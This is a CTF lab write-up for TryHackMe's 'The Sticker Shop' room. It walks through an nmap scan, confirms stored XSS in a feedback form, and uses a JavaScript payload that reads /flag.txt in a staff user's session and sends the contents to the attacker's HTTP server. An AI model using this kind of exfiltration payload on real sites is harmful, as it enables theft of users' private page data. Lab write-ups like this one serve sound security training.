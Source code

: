 ```yaml
---
title: "TryHackMe: The Sticker Shop"
author: Kasem Shibli
categories: [TryHackMe]
tags: [web, xss, js]
render_with_liquid: false
media_subpath: /blog/images/tryhackme_the_sticker_shop/
image:
  path: room_image.webp
---
```


**The Sticker Shop** was a very simple room about exploiting a **Cross-Site Scripting (XSS)** vulnerability to steal the contents of a page and retrieve the flag.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/thestickershop){: .center }

## Initial Enumeration

### Nmap Scan

We start with an `nmap` scan.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.222.154
Nmap scan report for 10.10.222.154
Host is up (0.082s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two ports open:

- **22** (`SSH`)  
- **8080** (`HTTP`)

### Web 8080

Visiting `http://10.10.222.154:8080/`, we see a simple page displaying some stickers and their prices.

![Web 8080 Index](web_8080_index.webp){: width="1200" height="600"}

While there is no functionality to purchase the stickers, it appears we can leave feedback at `http://10.10.222.154:8080/submit_feedback`.

![Web 8080 Submit Feedback](web_8080_submit_feedback.webp){: width="1200" height="600"}

After submitting feedback, we receive a message stating that a staff member will review it shortly.

![Web 8080 Submit Feedback Message](web_8080_submit_feedback_message.webp){: width="1200" height="600"}

The room also specifies that our goal is to read the flag located at `http://10.10.222.154:8080/flag.txt`. However, making a request to this endpoint returns a `401 Unauthorized` response.

![Web 8080 Flag](web_8080_flag.webp){: width="1200" height="600"}

## Obtaining the Flag

### Discovering the XSS

Going back to the **Feedback** page and testing the form for Cross-Site Scripting (**XSS**) with a simple payload like `<img src="http://10.11.72.22/test" />` and starting a basic HTTP server to confirm the vulnerability, we can see that we are successful as we see a request in our web server.

![Web 8080 Submit Feedback Xss](web_8080_submit_feedback_xss.webp){: width="1200" height="600" }

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.222.154 - - [01/Dec/2024 06:44:39] code 404, message File not found
10.10.222.154 - - [01/Dec/2024 06:44:39] "GET /test HTTP/1.1" 404 -
```

### Stealing Page Contents

Our goal is still to access the contents of the `http://10.10.222.154:8080/flag.txt` page, and while we don't have access to it, we can consider the possibility that the staff user might.

Since we already discovered a Cross-Site Scripting (**XSS**) vulnerability potentially affecting a staff user that allows us to run `JavaScript` code in their session, we can exploit this vulnerability to obtain the contents of the `http://10.10.222.154:8080/flag.txt` page.

To achieve this, we will first write a `JavaScript` code that makes a request to the `/flag.txt` endpoint and sends the contents back to our server upon receiving a response, as shown below:

```js
var target_url = "/flag.txt";
var my_server = "http://10.11.72.22/data";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(my_server + "?" + xhr.responseText)
    }
}
xhr.open('GET', target_url, true);
xhr.send(null);
```

Now, all we have to do is send our payload wrapped in `script` tags through the feedback form to make it execute in the staff user's session.

![Web 8080 Submit Feedback XSS Two](web_8080_submit_feedback_xss2.webp){: width="1200" height="600"}

After submitting the feedback with the payload, as we can see, we receive the flag on our web server and complete the room.

```console
10.10.222.154 - - [01/Dec/2024 06:59:29] code 404, message File not found
10.10.222.154 - - [01/Dec/2024 06:59:29] "GET /data?THM{83[REDACTED]e6} HTTP/1.1" 404 -
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
